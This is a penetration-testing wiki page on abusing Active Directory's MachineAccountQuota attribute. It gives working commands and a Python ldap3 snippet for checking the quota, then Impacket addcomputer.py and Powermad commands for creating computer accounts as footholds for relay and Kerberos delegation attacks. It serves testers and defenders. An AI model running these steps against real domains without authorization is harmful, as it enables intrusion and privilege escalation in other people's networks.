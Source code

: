 # MachineAccountQuota

## Theory

> MachineAccountQuota \(MAQ\) is a domain level attribute that by default permits unprivileged users to attach up to 10 computers to an Active Directory \(AD\) domain \([source](https://blog.netspi.com/machineaccountquota-is-useful-sometimes/)\)

## Practice

There are multiple ways attackers can leverage that power.

* [Force client authentications](../mitm-and-coerced-authentications/), [relay those authentications](../abusing-lm-and-ntlm/relay.md) to domain controllers using LDAPS, and take advantage of authenticated sessions to create a domain computer account. This account can then be used as a foothold on the AD domain to operate authenticated recon \(i.e. [with BloodHound](../../recon/bloodhound.md) for example\)
* Create a computer account and use it for [Kerberos RBCD attacks](../abusing-kerberos/delegations.md#resource-based-constrained-delegations-rbcd) when leveraging owned accounts with sufficient permissions \(i.e. ACEs like `GenericAll`, `GenericWrite` or `WriteProperty`\) against a target machine
* Create a computer account and use it for a [Kerberos Unconstrained Delegation](../abusing-kerberos/delegations.md#unconstrained-delegations) attack when leveraging owned accounts with sufficient permissions \(i.e. the `SeEnableDelegationPrivilege` user right\)
* Profit from special rights that members of the Domain Computers group could inherit
* Profit from special rights that could automatically be applied to new domain computers based on their account name

### Check the value

{% tabs %}
{% tab title="UNIX-like" %}
The [MachineAccountQuota](https://github.com/ShutdownRepo/CrackMapExec-MachineAccountQuota) module \(for [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)\) can be used to check the value of the MachineAccountQuota attribute.

```bash
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

Alternatively, it can be done manually with the following Python code.

```bash
import ldap3

target_dn = "DC=domain,DC=local" # change this
domain = "domain" # change this
username = "username" # change this
password = "password" # change this

user = "{}\\{}".format(domain, username)
server = ldap3.Server(domain)
connection = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
connection.bind()
connection.search(target_dn,"(objectClass=*)", attributes=['ms-DS-MachineAccountQuota'])
print(connection.entries[0])
```
{% endtab %}

{% tab title="Windows" %}
In order to run the following commands and tools as other users, testers can check the [user impersonation](../credentials/impersonation.md) part.

The following command, using the [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Get-ADDomain and Get-ADObject, will help testers make sure the controlled domain user can create computer accounts \(the MachineAccountQuota domain-level attribute needs to be set higher than 0. It is set to 10 by default\).

```bash
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
```
{% endtab %}
{% endtabs %}

### Create a computer account

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [addcomputer](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py) \(Python\) can be used to create a computer account, using the credentials of a domain user the the MachineAccountQuota domain-level attribute is set higher than 0 \(10 by default\).

```bash
addcomputer.py -computer-name 'SHUTDOWN$' -computer-pass 'SomePassword' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\anonymous:anonymous'
```

{% hint style="warning" %}
In some mysterious cases, using [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py) to create a computer account resulted in the creation of a **disabled** computer account. Testers can use [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) instead with the`--add-computer` option, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96)
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
The [Powermad](https://github.com/Kevin-Robertson/Powermad) module \(PowerShell\) can be used to create a domain computer account.

```bash
$password = ConvertTo-SecureString 'SomePassword' -AsPlainText -Force
New-MachineAccount -MachineAccount 'PENTEST01' -Password $($password) -Verbose
```

While the machine account can only be deleted by doman administrators, it can be deactivated by the creator account with the following command using the Powermad module.

```bash
Disable-MachineAccount -MachineAccount 'PENTEST01' -Verbose
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
Testers need to be aware that the MAQ attribute set to a non-zero value doesn't necessarily mean the users can create machine accounts. The right to add workstations to a domain can in fact be changed in the Group Policies. `Group Policy Management Console (gpmc.msc) > Domain Controllers OU > Domain Controllers Policy > Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > User Rights Assigments > Add workstations to domain`
{% endhint %}

## References

{% embed url="https://blog.netspi.com/machineaccountquota-is-useful-sometimes/" %}

{% embed url="https://www.harmj0y.net/blog/activedirectory/the-most-dangerous-user-right-you-probably-have-never-heard-of/" %}

{% embed url="https://social.technet.microsoft.com/wiki/contents/articles/5446.active-directory-how-to-prevent-authenticated-users-from-joining-workstations-to-a-domain.aspx" %}

